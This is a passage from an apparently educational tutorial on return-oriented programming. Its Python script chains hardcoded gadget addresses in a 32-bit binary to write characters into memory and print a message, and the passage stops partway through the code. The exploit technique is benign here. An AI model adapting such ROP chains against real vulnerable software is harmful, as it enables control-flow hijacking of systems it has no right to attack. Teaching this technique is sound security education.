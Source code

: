 And you see, there's our A!

## Printing a Sequence of Chars

Now that we can print an "A", let's try and print something a bit more
exciting, like "Go Navy"\` At this point, we have successfully created
the string we are going to write, the next thing we need is to be able
set up the remainder of the registers or call a function that can print
to the screen.

The cool thing is now that we have the infrastructure, we can just make
functions out of these. That is, we can make a function that produces a
ROP chain that does our task, and then we can just chain those together:

``` python
#!/usr/bin/python

import sys
from struct import pack

#write a char to memory
def write_char(a):
    p = ""
    #Write a to 0x080ea060
    p += pack('<I', 0x0806e97a) #pop edx; ret
    p += pack('<I', 0x080ea060) #address to write to
    p += pack('<I', 0x080bb746) #pop eax; ret
    p += pack('<I', a) # character we want to print
    p += pack('<I', 0x0808fc26) # mov [edx],eax;pop ebx;ret
    p += pack('<I', 0xdeadbeef) #  filler for pop ebx, will be adjust to 0x01 below
    return p

#write a space to memory
def write_space():
    p = ""
    #Write a to 0x080ea060
    p += pack('<I', 0x0806e97a) #pop edx; ret
    p += pack('<I', 0x080ea060) #address to write to
    p += pack('<I', 0x080bb746) #pop eax; ret
    p += pack('<I', 0x1f1f1f1f) # write byte one less than 0x20 for space
    p += pack('<I', 0x0807b466) # inc eax ; ret (turns least significant byte to 0x20)
    p += pack('<I', 0x0808fc26) # mov [edx],eax;pop ebx;ret
    p += pack('<I', 0xdeadbeef) #  filler for pop ebx, will be adjust to 0x01 below
    return p

#write a newline to memory
def write_newline():
    p = ""
    #Write a to 0x080ea060
    p += pack('<I', 0x0806e97a) #pop edx; ret
    p += pack('<I', 0x080ea060) #address to write to
    p += pack('<I', 0x080584a6) # : xor eax, eax ; pop ebx ; ret
    p += pack('<I', 0xdeadbeef) # filler for pop ebx
    p += pack('<I', 0x0807b466) # inc eax 
    p += pack('<I', 0x0807b466) # inc eax 
    p += pack('<I', 0x0807b466) # inc eax 
    p += pack('<I', 0x0807b466) # inc eax 
    p += pack('<I', 0x0807b466) # inc eax 
    p += pack('<I', 0x0807b466) # inc eax 
    p += pack('<I', 0x0807b466) # inc eax 
    p += pack('<I', 0x0807b466) # inc eax 
    p += pack('<I', 0x0807b466) # inc eax 
    p += pack('<I', 0x0807b466) # inc eax 
    p += pack('<I', 0x0808fc26) # mov [edx],eax;pop ebx;ret
```